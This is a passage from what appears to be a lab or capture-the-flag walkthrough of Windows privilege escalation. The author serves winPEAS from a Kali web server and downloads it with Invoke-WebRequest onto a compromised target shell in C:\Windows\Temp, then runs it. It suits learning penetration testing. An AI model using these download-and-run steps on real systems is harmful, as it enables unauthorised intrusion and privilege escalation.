 I don't really notice anything that I think I could use to get more privileges.
A good time to use winPEAS. I want to download the file to a folder in which I have write permissions.
Often C:\Windows\Temp is a possibility within the Windows environment where you can temporarily store files.
I navigate to this folder to download winPeas there.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\Users\svc-postgres\Desktop> cd c:\windows
PS C:\windows> cd temp
PS C:\windows\temp> 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


On the target I'm ready to download winPEAS, but on my Kali machine I haven't set everything up yet.
I navigate to the folder where winPEAS is stored and I start my python web server. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/…/winPEASexe/binaries/x64/Release]
└─$ sudo python3 -m http.server 80 

[sudo] password for eMVee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


I make sure that winPEAS.exe is downloaded on my target with the following command: **Invoke-WebRequest -Uri http://10.0.2.15/winPEASx64.exe -OutFile winPEASx64.exe**


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\windows\temp> Invoke-WebRequest -Uri http://10.0.2.15/winPEASx64.exe -OutFile winPEASx64.exe
PS C:\windows\temp> 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After executing the command I simultaneously see on my Kali machine that the file has been successfully downloaded by the target.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/…/winPEASexe/binaries/x64/Release]
└─$ sudo python3 -m http.server 80 

[sudo] password for eMVee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.27 - - [09/Nov/2021 14:08:57] "GET /winPEASx64.exe HTTP/1.1" 200 -

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Because winPEAS.exe is now downloaded on the target, I can run the file. I'm starting winPEAS as soon as possible, because I'm still looking for the right way for privilege escalation.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\windows\temp> ./winPEASx64.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
             *((,.,/((((((((((((((((((((/,  */                                                                      
      ,/*,..*((((((((((((((((((((((((((((((((((,                                                                    
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*                                                                 
    ((((((((((((((((**********/########## .(* ,(((((((                                                              
    (((((((((((/********************/####### .(. (((((((                                                            
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~